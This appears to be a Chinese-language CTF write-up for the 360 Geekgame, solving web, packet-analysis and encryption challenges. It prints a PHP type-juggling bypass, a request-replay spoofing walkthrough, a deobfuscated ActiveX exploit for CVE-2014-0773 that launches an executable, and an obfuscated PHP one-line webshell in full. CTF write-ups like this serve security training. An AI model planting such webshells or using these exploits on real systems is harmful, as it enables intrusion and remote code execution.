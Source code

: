 ```yaml
---
layout: post
title: 360 Geekgame Writeup
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

#### WEB1

就一个大苹果的图，Format Analysis后得到一串base64:`ZW1lbS4uLiAvY3RmXzM2MF9mbGFnv`

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/6ehrtsgbfdx.png">

解密后为`emem... /ctf_360_flag`，是一个目录，图为被咬一口的苹果，osx默认下每个目录下都会存在一个.DS_Store文件来保存文件夹的显示属性，请求`/ctf_360_flag/.DS_Store`及得到flag：

	flag: 61cda90b0c742a90458c4ed43b328bcc

#### WEB3
根据图片Format Analysis后得到一大串摩斯密码：

	--. .. ..-. - --.. -- --. .- ;..<..- -.. .-- . .... .--. $.- = "----- .-.-.- .---- " ;$-... = $_--. . - [.----. -... . ----. ] ;.. ..- . ($-.. . -.-. -- = .- ---. .- ---. ){ .. ..-. ( .. ... _.- .- . .-. .- -.-- ($-... )){ . -.-. .. .. --- "-. - -- -.- . -.- - -.-.- - "; . -..- .. - ; }. .- .. ... . .. ..-. (- .-.-- . . ... _-. ..- -- . .-. .. -.-. ($-... )){ $-.-. = (.. -. - )(($.- + $-... ) * .- --- --- -- ); .. ..-. ($-.-. == "-- -.. " & & $-... [.---- ----- ] == ..- . .- . -.. ... . ){ . -. -. .... --- "..-. . -.. .- --. "; }. .-.. ... . { . -.-. .... -- - "-. --- - .- . - .-- -.- .-- "; . -. .- .. - ; } }. .-. . ... . { . - .-. ... . --- "-. -- - -.- . -.-- -.-.-- "; }}. .-. . ... . { . -.-. .... - -- "-. --- -.- . -.-- -. -.-- "; }..--.. >

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/76tyhfg.png">

解密得到一段php代码：

	<?php
    $a= "0.1";
    $b= $_GET['b'];
    if($b! = '' )
    {
        if(is_array  ($b))
        {
            echo "nokey!";
            exit;
        }
        else if(!is_numeric ($b ))
        {
            $c   = (int)(($a + $b  ) * 10 );
            if  ($c   == "8" && $b  [10 ] == false )
            {
                echo   "flag ";
            }
            else
            {
                echo  "nokey ";
                exit  ;
            }
        }
        else {echo  "nokey ";}
    }
    else {echo  "no  ";}
	?>

这段代码表示GET请求的参数b符合要求的话就能得到flag，首先$b不能为数组，并且还不能为数字，继续往下看，分析写在下面。

	$c = (int)(($a + $b) * 10)
	$c == "8"
	转换为公式：
	int((0.1+$b)*10)==8
	因为要(int)所以$b>0.7 & $b<0.8 = 0.71
	&& $b[10] == false转换为公式：
	判断$b第11位不能为true，
	$b="0.711111111";
	var_dump($b[10] == TRUE);为true
	$b="0.7100000000";
	var_dump($b[10] == TRUE);为false
	或者不构造那么长也就是后面为空的话也为false

往回看，$b既然不能为数字的话那么也没判断是否为字符串，而且在if里判断的是类型转换后赋值给的$c，所以请求`web3?b=0.71a`及得到flag:

	flag: 4e07fbad6ff26d9a3c9f198277866c66

#### NET1
>要求："根据所给的pcap数据包进行分析，伪造地点`360大厦`和`iphone 6 plus`手机，发送任意微博内容"

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;下载到pcap包后筛选下，请求方式为POST并且http内容中包含weibo字样的数据包。

	http.request.method=="POST" && http contains "weibo"

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;翻到第7305个数据包为发微博的request包，Follow TCP Stream。

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/tydhfgbxcv.png">

向下翻，poiid为地址

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/65i7rtuydh.png">

c为手机类型

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/8irujtydhfg.png">

content为微博内容

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/4aresgdfxc.png">

ua为User-Agent

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/7uytdhfgx.png">

根据这些字段就可以更改相应的字段为要求：

	ua=iPhone7,1__weibo__5.2.8__iphone__os8.3&c=iphone&poiid=B2094753D56EA0FE419C

然后重放request，获得flag:

	flag：195b8ef7140a6a09aa4e207e20f6304c

#### NET2
>请分析数据包并给出数据包中利用漏洞的CVE编号。（CVE编号即为过关密码，格式：CVE-XXXX-XXXX）

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/8irjtydfg.png">

是一段js混淆，进行其反混淆

	< html >
	< body >
	< object id = "mfHQh" classid = "clsid:5C2A52BD-2250-4F6B-A4D2-D1D00FCD748C">
		< script type = "text/javascript" >
	   mfHQh[CreateProcess]("C:\windows\explorer.exe \\bwvbprt.exe", 0, 1);
	<  / script >
	<  / body >

搜索了下，flag为`CVE-2014-0773`

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/eytdfg.png">

#### Encrypt2
>小明在服务器上发现了一个奇怪的php文件，初步断定为黑客留下的一句话后门，请分析php文件，找出一句话后门的密码。（密码即为Flag）


	<?php
	eval(gzinflate(base64_decode("pZLdSsNAEIXvBd+hTmOzMXTbFC3UGhtFEANWlLZES5OgvauoIFho2jy7s7PJhMSI
	F5Kbb2fPzs+Z7O8ZiYAmhLAFS9bQzhUQIboUPECKiUQDMSFMkYZIZt+U5nFkYijB0Kh0KfCcp+5wlh+6YaO2H9VFbW2BNK
	8U2iJJoiOk9Pek4q/ZBTwG481T4HeD3mC9vH79en67fb+fjScPM38aOMvL6erEn6xePm+uLj7u1i669I9qAucL4ZSDesQWC
	9WwHlGxkZRpwW9t1ikrDCRwAE87dtvm7EphlRQd3taC6AwpIjJ4A4XFkhcQ81uhbZcw6EN20a67mHPHxX8Qc+YQP7vyvxQJ
	IHNBa9usUBMcck5d1kNqEVmZl9CDkmNNnsLIFV3IKnsVRT4OOCQJdRNq76Pzbw==")));
	?>

这段代码进行base64+gzinflate加密，var_dump下看看执行结果：

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/67jtydgbfvc.png">

获得了一串base64密文`YXNzZXJ0X29wdGlvbnMoQVNTRVJUX1dBUk5JTkcsIDApOw==`，解码得到`assert_options(ASSERT_WARNING, 0);`这个函数设置ASSERT_WARNING为0，即为不回显warning，删掉这段base64加密后的代码执行下。

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/6i7jrtyd.png">

执行后由此看出是一段一句话木马，flag即为POST接受的参数：

	flag：p4n9_z1_zh3n9_j1u_Sh1_J13
